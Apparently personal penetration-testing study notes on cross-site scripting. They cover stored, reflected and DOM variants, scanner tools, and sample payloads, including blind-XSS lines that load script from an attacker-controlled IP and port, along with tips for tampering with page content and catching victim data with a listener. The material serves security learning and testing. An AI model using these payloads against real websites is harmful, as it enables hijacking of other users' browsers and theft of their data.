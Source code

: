 ## overview
- the attacker submits data that is stored on the server
	- the attacker knows the submitted data will be rendered on the client side for other users (ie. comments)
- the submitted data is a frontend coding injection that will execute js on the victim client

### XSS enumerators
- [XSS Strike](https://github.com/s0md3v/XSStrike), [Brute XSS](https://github.com/rajeshmajumdar/BruteXSS), and [XSSer](https://github.com/epsylon/xsser)
- [Nessus](https://www.tenable.com/products/nessus), [Burp Pro](https://portswigger.net/burp/pro), or [ZAP](https://owasp.org/www-project-zap/)

### Note
- XSS can be injected into any input in the HTML page, which is not exclusive to HTML input fields, but may also be in HTTP headers like the Cookie or User-Agent (i.e., when their values are displayed on the page).
- Manually testing XSS is not optimal
	- make a python script with multiple XSS payloads and have a built in function that detects  success/failure cases
	-  do manual code review
		- <font style="color:#CF0000">review the html output and see how your input is handeled</font>
		- most applications test their security against public XSS scripts so those will get patched
- if client side testing shows nothing, try testing inputs that go through server side
### testing for XSS
- upload to a field
```
<script>alert(window.origin)</script>
<plaintext>
<script>print()</script>
```
- blind XSS (may need script \[direct js to execute\], and php files)
```
'><script src=http://10.10.14.44:89/script.js></script>
<script>$.getScript("http://10.10.14.44:89")</script><script
```
-  test if XSS is stored
- for reflected XSS
	- because the server does not store the payload, you need to send a link that has the payload attached. 
	- processed by backend first
	- try editing the url parameters
- for DOM XSS
	- no involvement with backend
	- JS on frontend will update the page but only after base page source is retrieved by browser
		- refreshing will clear the payload
	- detecting DOM vulnerability
		- js payload is not displayed in the html and does not execute
		- parts
			- source: js object that stores user input
			- sink: js function that writes user input to a DOM object
		- exploiting DOM XSS
			- make sure JS object stores the full payload part of your input
				- look in their js file
			- make sure the JS function allows the html tags you use
				- ex. innerhtml does not allow script tags
				- a good DOM XSS payload:
			```
			<img src="" onerror=alert(window.origin)>
			```
### XSS attacks
- editing frontend code methods
	- you can remove existing DOM elements with `document.getElementById().remove()` element in js
	- you can comment out the entirety of the html code after your inject with an open html comment `<!--` 
	- js can be injected into html pages with the `<script>` tag
- functionality
	-  if your attack involves receiving data from the victim don't forget to start a listener on your attacker device
	- if you want the website to be functional after submitting data, you need to upload a php file to properly handle website functionality